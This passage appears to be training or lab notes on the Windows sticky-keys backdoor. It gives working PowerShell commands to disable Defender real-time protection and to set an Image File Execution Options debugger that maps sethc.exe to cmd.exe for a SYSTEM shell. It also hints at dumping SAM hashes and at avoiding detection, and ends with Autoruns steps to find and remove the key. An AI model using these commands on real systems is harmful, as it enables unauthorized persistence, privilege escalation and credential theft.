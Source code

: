        - While this exploit is protected by current AV, you still might see it in customer networks who don’t follow DISA STIGs.
	
**Create a new Registry key using PowerShell** 
This will create a backdoor onto a box which will trigger Windows Defender. So first we need to disable it.

**Disable Windows Defender Real Time Protection**
```
Set-MpPreference -DisableRealtimeMonitoring $TRUE
```

Sometimes, the previous command may not work as expected. In such cases, you can follow these steps:
1.	Click the Windows button in the lower-left corner of your desktop.
2.	Navigate to "Virus & threat protection."
3.	Under "Virus & threat protection settings," click "Manage settings."
4.	Finally, toggle off "Real-Time protection." These steps will help you turn off real-time protection using the Windows Security interface.

**Create a new Registry key using New-Item in PowerShell**
```
new-item "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
```
**Create a new Registry key property using New-ItemProperty in PowerShell**
```
New-ItemProperty -path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Name Debugger -Type String -Value C:\Windows\System32\cmd.exe
```
**Calling our new value in order to privilege escalate**
    1. Rapidly press the SHIFT key 5 times
    2. A command shell opens
    3. Type whoami
    4. You should be army\john.huntsman or whoever your user account is
    5. Now log off the system and press the SHIFT key 5 times
    6. A command shell opens
    7. Type whoami
    8. Now you are NT AUTHORITY\SYSTEM

	As SYSTEM user, we could open the Registry and copy the SAM database to access password hashes

**Create a network share to Sysinternals**
```
net use * http://live.sysinternals.com
```
    The `net use` command allows us to map a network location and navigate it like it is a local directory.

    You can run `net use` and it will show detailed information about currently mapped drives and devices.

        Additionally you can run `net use /help` for a listing of most common parameters.
```
Type *autoruns -accepteula*
```
	- If we are running remote operations on a target, if we run a SysInternals command for the first time, we will be prompted by a popup to accept the EULA. The -accepteula switch will prevent this and prevent us from being discovered.
**Using Autoruns to view the created Registry key**
	1. In Autoruns, click on the Image Hijacks Button
	2. Right click on the sethc.exe and select Jump to Entry…​
	3. Right click on the sethc.exe key and select export
	4. Name the file "Totally Legit Windows Update" and save it to your Desktop
	5. Delete the sethc.exe key using the GUI
